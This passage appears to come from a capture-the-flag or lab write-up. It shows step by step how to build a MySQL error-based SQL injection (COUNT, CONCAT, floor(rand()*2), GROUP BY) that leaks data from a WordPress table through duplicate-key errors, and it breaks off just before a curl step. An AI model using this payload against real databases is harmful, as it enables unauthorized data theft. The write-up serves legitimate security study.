 ### Building Query

Let's start with a simple query to run, `select user();`:



    mysql> select user();
    +----------------+
    | user()         |
    +----------------+
    | root@localhost |
    +----------------+
    1 row in set (0.01 sec)



The goal is to get `root@localhost` into an error message. I'll add a
`COUNT` column and a `CONCAT` of the data I want to get plus the random
0 or 1:



    mysql> select COUNT(*),concat(user(), floor(rand()*2)) as a from wp_posts group by a;
    +----------+-----------------+
    | COUNT(*) | a               |
    +----------+-----------------+
    |       19 | root@localhost0 |
    |       23 | root@localhost1 |
    +----------+-----------------+
    2 rows in set (0.00 sec)

    mysql> select COUNT(*),concat(user(), floor(rand()*2)) as a from wp_posts group by a;
    ERROR 1062 (23000): Duplicate entry 'root@localhost1' for key '<group_key>'



There's an error message that contains the data I want to exfil, knowing
that the last character (0 or 1) is not part of the data.

I'll try to pull some data. First, I'll change that table to
`information_schema.columns`, as having a bunch more columns seems to
make the error come up more often. Now I'll replace `user()` with a
query. I'll also add in some tags that I could search on
programmatically to extract the data. Finally, I want to put it into the
format that fits the injection I have.



    mysql> select id from wp_posts where post_name = 1 AND (select 1 from (select COUNT(*),concat((select mid(post_title,1,64) from wp_posts where id = 68), 0x3078646666647830, floor(rand()*2)) as a from information_schema.columns group by a) as x);
    ERROR 1062 (23000): Duplicate entry 'Passwords0xdffdx01' for key '<group_key>'



Now I can get that with `curl`:
